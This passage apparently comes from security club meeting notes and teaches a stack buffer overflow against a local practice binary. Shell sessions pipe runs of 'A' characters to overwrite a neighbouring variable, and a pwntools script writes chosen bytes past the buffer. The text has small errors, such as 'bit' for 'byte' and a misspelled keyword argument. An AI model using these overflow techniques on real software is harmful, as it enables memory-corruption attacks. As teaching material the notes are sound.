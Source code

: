 ```
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*49' | ./a.out
1443
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*50' | ./a.out
1443
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$
```

Well, so much for that. Though it may seem like the input was unsuccessful, the
truth is that the size of the buffer is being padded to a multiple of 8 bytes
(a machine word) for better performance. So the "real" size of the buffer is
56 bytes, not 50. Knowing this, lets try again:

```
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*55' | ./a.out
1443
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*56' | ./a.out
1280
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$
```

Just as expected, `num` is being overwritten. Below is a diagram of the stack
after the call to `gets()`:

![Stack after gets()](./stack_smashing_example2.png)

Since `num` is stored in little-endian byte order, the least significant bit is
overwritten first, changing the value from `0x00000005A3` to `0x0000000500`.
You can verify in python that these are equal to 1443 and 1280, respectively.
Additionally, you can simply write a ton of 'A' characters to overwrite the
return address, causing the program to crash.

## Targeted writes
Since we can overwrite `num` with arbitrary bytes, we can effectively change it
to be any value we want. The classical way to do this is to use python's
`struct` module. However, we have better tools available to us now. This is how
to write arbitrary bytes in 2017:

```python
#!/usr/bin/python
from pwn import *

your_val_here = 12345
p = process('./a.out')
p.sendline('A' * 56 + p64(your_val_here))
print p.readline()
```
If you want to write negative arguments, you'll have to use something like
`p64(-1, sign="signed", endinanness="little")`.
